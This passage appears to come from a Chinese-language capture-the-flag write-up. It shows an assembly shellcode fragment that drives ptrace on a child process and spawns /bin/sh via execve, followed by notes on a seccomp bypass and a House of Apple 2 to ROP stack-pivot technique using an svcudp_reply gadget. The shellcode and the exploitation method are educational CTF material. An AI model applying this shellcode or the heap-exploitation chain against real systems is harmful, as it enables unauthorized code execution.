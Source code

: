 ```python
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
```

# 随记
当时比赛由于不太清楚ptrace的使用方法，尝试了openat2，结果发现后来出题人使用了比较低的内核版本，当时还没有openat2。
我说那要不试试把栈上的环境变量全部打印出来，说不定能整个非预期，结果出题人在环境变量上放的是假flag。
出题人真的希望咱把ptrace搞懂啊哈哈哈。

# houseofapple2接rop
还有就是这题前半部分的houseofapple2接rop的思路。
有些版本是使用setcontext的gadget，这题是使用svcudp_reply+26的gadget，利用houseofapple2可以控制rdi的特性，在保持控制程序流的情况下，同时控制rbp，以达到栈迁移rop的效果